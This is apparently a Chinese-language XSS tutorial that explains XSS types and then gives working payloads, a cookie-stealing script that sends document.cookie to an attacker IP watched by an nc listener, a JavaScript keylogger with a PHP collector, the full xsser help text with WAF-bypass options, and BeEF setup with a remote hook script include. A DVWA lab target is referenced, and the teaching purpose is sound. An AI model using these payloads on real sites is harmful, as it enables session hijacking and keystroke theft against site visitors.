

XSS¶
0x01 xss简介¶
- 攻击对象: WEB客户端
- 客户端脚本语言正常用途: 弹窗警告、广告,等
- 主要语言: JavaScript, 此外还有VBScript,ActiveX,or Flash
漏洞形成的根源¶
- 服务器对用户提交数据过滤不严
- 提交给服务器的脚本被直接返回给其他客户端执行
- 脚本可以在客户端执行恶意操作
XSS(cross-site scripting)主要利用方式¶
- 通过WEB站点漏洞，向客户端交付恶意脚本代码，实现对客户端的攻击目的
- 注入客户端脚本代码
- 盗取cookie
- 重定向等等
攻击参与方¶
- 攻击者
- 被攻击者
- 漏洞网站
- 可选: 第三方网站(可以是攻击者的肉鸡,或者攻击目标)
XSS漏洞类型¶
- 存储型（持久型）
- 反射型（非持久）
- DOM型(一种特殊的反射性,不过被攻击客户端不再去请求漏洞站点资源)
0x02 JavaScript¶
与Java语言无关
命名完全出于市场原因
使用最广的客户端脚本语言
- 使用场景
直接嵌入html:<script>aler('XSS');</script> 元素标签事件: <body onload=alert('XSS')> 图片标签: <img src="javascript:alert('XSS');"> 其他标签: <iframe>,<dir>,<a>, <link>等等 DOM对象，篡改页面内容
0x03 常见Payload¶
常见Poc¶
<script>alert('xss')</script>
<a href=" onclick=alert('xss')>type</a>
<img src='' onerror=alert('xss')>
<script>window.location='http://hacker.com'</script>
<iframe SRC="http://1.1.1.1/victim" height="0" width="0"></iframe>
<script>new Image().src="http://127.0.0.1/c.php
?cookies="+document.cookie;</script>
<script>document.body.innerHTML="<div style=visibility:visible;><h1>THIS WEBSITE IS UNDER ATTACK</h1></div>";</script>
盗取Cookie举例¶
ip2: nc -vnlp 88
<script src=http://ip1/a.js></script>
ip1上a.js源码
var img = new Image();
img.src = "http://ip2:88/cookies.php?cookie="+document.cookie;
当然,也可以利用第三方xss平台,或自己搭建xss利用平台
键盘记录器举例¶
Keylogger.js
document.onkeypress = function(evt){
evt = evt || window.event
key = String.fromCharCode(evt.charCode)
if(key){
var http = new XMLHttpRequest();
var param = encodeURI(key);
http.open("POST","http://192.168.0.102/Keylogger.php",true);
http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
http.send("key="+param);
}
}
Keylogger.php
<?php
$key=$_POST['key'];
$logfile="keylog.txt";
$fp = fopen($logfile, "a");
fwrite($fp, $key); fclose($fp);
Echo "Hello Wolrd"
?>
插入代码:
<script+src="http://ip/keylogger.js"></script>
或
<a href="http://IP1/dvwa/vulnerabilities/xss_r/?name=<script +src='http://IP2/keylogger.js'></script>">xss</a>
Xss过滤¶
- 过滤关键字(形同虚设)
- 编码html字符(htmlspecialchars($message)函数把< > 变
< >等)这种情况下,如果输出点本身在尖括号内才可以较好利用(利用现有的尖括号),或者尝试编码绕过.
存储型xss¶
漏洞成因
应用把用户的输入内容存储到服务器端,每次访问都会调用执行JavaScript脚本.一般出现在类似留言处等可能存储到数据库的输入点.
DOM型xss¶
- DOM, 一套js和其他语言可调用的标准api

<!DOCTYPE html>
<html>
<body>
<p id="p1">Hello World!</p>
<script>
document.getElementById("p1").innerHTML="New text!";
</script>
<p>上面的段落被一条 JavaScript 脚本修改了。</p>
</body>
</html>
nc -nvlp 88
<script>var img=document.createElement("img");img.src="http://192.168.20.8:88/log?"+escape(document.cookie);</script>
0x04 xss检测工具 xsser¶
### 简介 - 命令/图形化 工具 - 绕过服务器端输入筛选 - 10进制/16进制 等编码 - unescape()
使用说明¶
xsser -u http://1.1.1.1/dvwa/vulnerabilities/" -g "xss_r/?name=" --cookie="security=low;PHPSESSID=d23e439411707ff8210717e67c521a81" -s -v --reverse-check --heuristic
-g GET方法提交数据
-v 详细输出
--reverse-check 反向链接确定漏洞
--heuristic 检查具体过滤的漏洞
XSS 对payload编码，绕过服务器端筛选过滤
--Str Use method String.FromCharCode()
--Une Use Unescape() function
--Mix Mix String.FromCharCode() and Unescape()
--Dec Use Decimal encoding
--Hex Use Hexadecimal encoding
--Hes Use Hexadecimal encoding, with semicolons
--Dwo Encode vectors IP addresses in DWORD
--Doo Encode vectors IP addresses in Octal
--Cem=CEM Try -manually- different Character Encoding Mutations
(reverse obfuscation: good) -> (ex: 'Mix,Une,Str,Hex')
如: --Cem='Mix,Une,Str,Hex
注入技术(多选)
--Coo COO - Cross Site Scripting Cookie injection
--Xsa XSA - Cross Site Agent Scripting
--Xsr XSR - Cross Site Referer Scripting
--Dcp DCP - Data Control Protocol injections
--Dom DOM - Document Object Model injections
--Ind IND - HTTP Response Splitting Induced code
--Anchor ANC - Use Anchor Stealth payloader (DOM shadows!)
--Phpids PHP - Exploit PHPIDS bug (0.6.5) to bypass filters
--Doss XSS Denial of service (server) injection
--Dos XSS Denial of service (client) injection
--B64 Base64 code encoding in META tag (rfc2397) --Onm ONM - Use onMouseMove() event to inject code --Ifr Use <iframe> source tag to inject code
# xsser --help
Usage:
xsser [OPTIONS] [--all <url> |-u <url> |-i <file> |-d <dork> (options)|-l ] [-g <get> |-p <post> |-c <crawl> (options)]
[Request(s)] [Checker(s)] [Vector(s)] [Anti-antiXSS/IDS] [Bypasser(s)] [Technique(s)] [Final Injection(s)] [Reporting] {Miscellaneous}
Cross Site "Scripter" is an automatic -framework- to detect, exploit and
report XSS vulnerabilities in web-based applications.
Options:
--version show program's version number and exit
-h, --help show this help message and exit
-s, --statistics show advanced statistics output results
-v, --verbose active verbose mode output results
--gtk launch XSSer GTK Interface
--wizard start Wizard Helper!
*Special Features*:
You can set Vector(s) and Bypasser(s) to build complex scripts for XSS
code embedded. XST allows you to discover if target is vulnerable to
'Cross Site Tracing' [CAPEC-107]:
--imx=IMX IMX - Create an image with XSS (--imx image.png)
--fla=FLASH FLA - Create a flash movie with XSS (--fla movie.swf)
--xst=XST XST - Cross Site Tracing (--xst http(s)://host.com)
*Select Target(s)*:
At least one of these options must to be specified to set the source
to get target(s) urls from:
--all=TARGET Automatically audit an entire target
-u URL, --url=URL Enter target to audit
-i READFILE Read target(s) urls from file
-d DORK Search target(s) using a query (ex: 'news.php?id=')
-l Search from a list of 'dorks'
--De=DORK_ENGINE Use this search engine (default: duck)
--Da Search massively using all search engines
*Select type of HTTP/HTTPS Connection(s)*:
These options can be used to specify which parameter(s) we want to use
as payload(s) to inject:
-g GETDATA Send payload using GET (ex: '/menu.php?q=')
-p POSTDATA Send payload using POST (ex: 'foo=1&bar=')
-c CRAWLING Number of urls to crawl on target(s): 1-99999
--Cw=CRAWLER_WIDTH Deeping level of crawler: 1-5 (default 3)
--Cl Crawl only local target(s) urls (default TRUE)
*Configure Request(s)*:
These options can be used to specify how to connect to the target(s)
payload(s). You can choose multiple:
--cookie=COOKIE Change your HTTP Cookie header
--drop-cookie Ignore Set-Cookie header from response
--user-agent=AGENT Change your HTTP User-Agent header (default SPOOFED)
--referer=REFERER Use another HTTP Referer header (default NONE)
--xforw Set your HTTP X-Forwarded-For with random IP values
--xclient Set your HTTP X-Client-IP with random IP values
--headers=HEADERS Extra HTTP headers newline separated
--auth-type=ATYPE HTTP Authentication type (Basic, Digest, GSS or NTLM)
--auth-cred=ACRED HTTP Authentication credentials (name:password)
--proxy=PROXY Use proxy server (tor: http://localhost:8118)
--ignore-proxy Ignore system default HTTP proxy
--timeout=TIMEOUT Select your timeout (default 30)
--retries=RETRIES Retries when the connection timeouts (default 1)
--threads=THREADS Maximum number of concurrent HTTP requests (default 5)
--delay=DELAY Delay in seconds between each HTTP request (default 0)
--tcp-nodelay Use the TCP_NODELAY option
--follow-redirects Follow server redirection responses (302)
--follow-limit=FLI Set limit for redirection requests (default 50)
*Checker Systems*:
These options are useful to know if your target is using filters
against XSS attacks:
--hash send a hash to check if target is repeating content
--heuristic discover parameters filtered by using heuristics
--discode=DISCODE set code on reply to discard an injection
--checkaturl=ALT check reply using: alternative url -> Blind XSS
--checkmethod=ALTM check reply using: GET or POST (default: GET)
--checkatdata=ALD check reply using: alternative payload
--reverse-check establish a reverse connection from target to XSSer to
certify that is 100% vulnerable (recommended!)
*Select Vector(s)*:
These options can be used to specify injection(s) code. Important if
you don't want to inject a common XSS vector used by default. Choose
only one option:
--payload=SCRIPT OWN - Inject your own code
--auto AUTO - Inject a list of vectors provided by XSSer
*Anti-antiXSS Firewall rules*:
These options can be used to try to bypass specific WAF/IDS products.
Choose only if required:
--Phpids0.6.5 PHPIDS (0.6.5) [ALL]
--Phpids0.7 PHPIDS (0.7) [ALL]
--Imperva Imperva Incapsula [ALL]
--Webknight WebKnight (4.1) [Chrome]
--F5bigip F5 Big IP [Chrome + FF + Opera]
--Barracuda Barracuda WAF [ALL]
--Modsec Mod-Security [ALL]
--Quickdefense QuickDefense [Chrome]
*Select Bypasser(s)*:
These options can be used to encode vector(s) and try to bypass
possible anti-XSS filters. They can be combined with other techniques:
--Str Use method String.FromCharCode()
--Une Use Unescape() function
--Mix Mix String.FromCharCode() and Unescape()
--Dec Use Decimal encoding
--Hex Use Hexadecimal encoding
--Hes Use Hexadecimal encoding with semicolons
--Dwo Encode IP addresses with DWORD
--Doo Encode IP addresses with Octal
--Cem=CEM Set different 'Character Encoding Mutations'
(reversing obfuscators) (ex: 'Mix,Une,Str,Hex')
*Special Technique(s)*:
These options can be used to inject code using different XSS
techniques. You can choose multiple:
--Coo COO - Cross Site Scripting Cookie injection
--Xsa XSA - Cross Site Agent Scripting
--Xsr XSR - Cross Site Referer Scripting
--Dcp DCP - Data Control Protocol injections
--Dom DOM - Document Object Model injections
--Ind IND - HTTP Response Splitting Induced code
--Anchor ANC - Use Anchor Stealth payloader (DOM shadows!)
*Select Final injection(s)*:
These options can be used to specify the final code to inject on
vulnerable target(s). Important if you want to exploit 'on-the-wild'
the vulnerabilities found. Choose only one option:
--Fp=FINALPAYLOAD OWN - Exploit your own code
--Fr=FINALREMOTE REMOTE - Exploit a script -remotely-
--Doss DOSs - XSS (server) Denial of Service
--Dos DOS - XSS (client) Denial of Service
--B64 B64 - Base64 code encoding in META tag (rfc2397)
*Special Final injection(s)*:
These options can be used to execute some 'special' injection(s) on
vulnerable target(s). You can select multiple and combine them with
your final code (except with DCP code):
--Onm ONM - Use onMouseMove() event
--Ifr IFR - Use <iframe> source tag
*Reporting*:
--save export to file (XSSreport.raw)
--xml=FILEXML export to XML (--xml file.xml)
*Miscellaneous*:
--silent inhibit console output results
--no-head NOT send a HEAD request before start a test
--alive=ISALIVE set limit of errors before check if target is alive
--update check for latest stable version
0x05 XSS漏洞利用工具 BEEF¶
简介¶
- 浏览器攻击面
应用普遍转移到B/S架构，浏览器成为统一客户端程序,可以结合社会工程学方法对浏览器进行攻击,通过注入的JS脚本，攻击浏览器用户, 利用浏览器攻击其他网站
-
BEFF(Brower Exploitation Framework)
Ruby语言编写,可以生成、交付palyload - 服务器端：管理hooked客户端 - 客户端：运行与客户端浏览器的Javascript脚本(hook)
-
攻击手段
诱使客户端访问含有hook的伪造站点,利用网站xss漏洞实现攻击, 或可以结合中介人攻击注入hook脚本
-
常见用途
- 键盘记录器
- 网络扫描
- 浏览器信息收集
- 绑定shell
- 与metasploit集成
使用方法¶
启动¶
控制台或应用菜单启动
beef-xss,之后访问http://127.0.0.1:3000/ui/panel, 输入用户名密码均为beef, 即可进入管理界面.
功能菜单简介¶
-
Details
浏览器、插件版本信息；操作系统信息
-
Logs
浏览器工作：焦点变化、鼠标点击、信息输入
-
Commands：命令模块
- 绿色模块：表示模块适合目标浏览器，并且执行结果被客户端不可见
- 红色模块：表示模块不适用于当前用户，有些红色模块也可正常执行
- 橙色模块：模块可用，但结果对用户可见（CAM弹窗申请权限等）
- 灰色模块：模块末在目标浏览器上测试过 注意: 上述不是百分百的准确,可用不可用,依据情况定.
主要模块 Persistence (建议先尝试执行) Browsers Exploits Host Network
-
Hook示例
<script src="http://<IP>:3000/hook.js"></script>